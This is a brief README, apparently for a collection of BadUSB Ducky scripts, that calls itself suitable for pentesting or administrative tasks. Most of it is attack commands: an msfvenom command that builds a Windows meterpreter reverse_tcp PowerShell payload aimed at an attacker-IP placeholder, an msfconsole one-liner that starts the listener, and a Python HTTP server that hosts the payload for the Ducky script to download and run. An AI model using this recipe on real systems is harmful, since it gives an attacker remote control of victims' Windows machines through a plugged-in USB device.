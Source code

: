 # Various Ducky scripts for Bad USBs
Can be used for pentesting or administrative tasks.
# On The Attacker's Machine
Create the payload with msfvenom<br/> 
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=AttacksersIP LPORT=AttackersPort -f psh -o PAYLOAD.ps1
<br/>Open msfconsole and start listener
msfconsole -x "use multi/handler;set payload windows/x64/meterpreter/reverse_tcp; set lhost IP; set lport PORT; set ExitOnSession false; exploit -j"
-Start start python http server
python3 -m http.server 80
-Ducky script will download and execute powershell script opening meterpreter session



